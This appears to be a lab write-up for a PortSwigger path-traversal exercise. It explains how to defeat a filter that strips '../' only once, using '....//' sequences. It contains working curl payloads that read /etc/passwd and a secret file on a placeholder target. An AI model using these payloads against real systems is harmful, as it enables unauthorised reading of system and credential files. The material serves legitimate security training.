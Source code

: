 # File path traversal, traversal sequences stripped non-recursively — Practitioner

**Status:** Solved

---

## Goal  
Bypass the filter that removes `../` only once. Use a tricked input to reach a sensitive file (like `/etc/passwd` or config) and get the flag.

---

## Steps (simple & complete)

1. **Find the vulnerable endpoint**  
   - Look for something like:
     ```
     GET /image?filename=dog.jpg
     ```
     The app reads the file based on this parameter.

2. **Test normal traversal**  
   - Try:
     ```bash
     /image?filename=../../../../etc/passwd
     ```
     It fails because the app strips `../` once.

3. **Understand the filter**  
   - If the app removes `../` only one time, input like `....//` becomes `../` after the first strip — this is the key trick.

4. **Use the bypass sequence**  
   - Replace each `../` with `....//` so that after stripping, it still resolves to `../`.
   - Example:
     ```bash
     curl -s "https://TARGET/image?filename=....//....//....//....//etc/passwd"
     ```

5. **Check the response**  
   - If you see system usernames or readable content, you’ve successfully bypassed the filter.

6. **Find the flag file**  
   - In PortSwigger labs, the flag is usually inside `/home/carlos/secret` or similar.
   - Try:
     ```bash
     curl -s "https://TARGET/image?filename=....//....//....//....//home/carlos/secret"
     ```

7. **Save your result**  
   - Record the vulnerable parameter, the exact payload, and the successful response (redacted).

---

## Example
- Vulnerable endpoint:  
  `GET /image?filename=dog.jpg`
- Working payload:
  ```bash
  curl -s "https://TARGET/image?filename=....//....//....//....//home/carlos/secret"
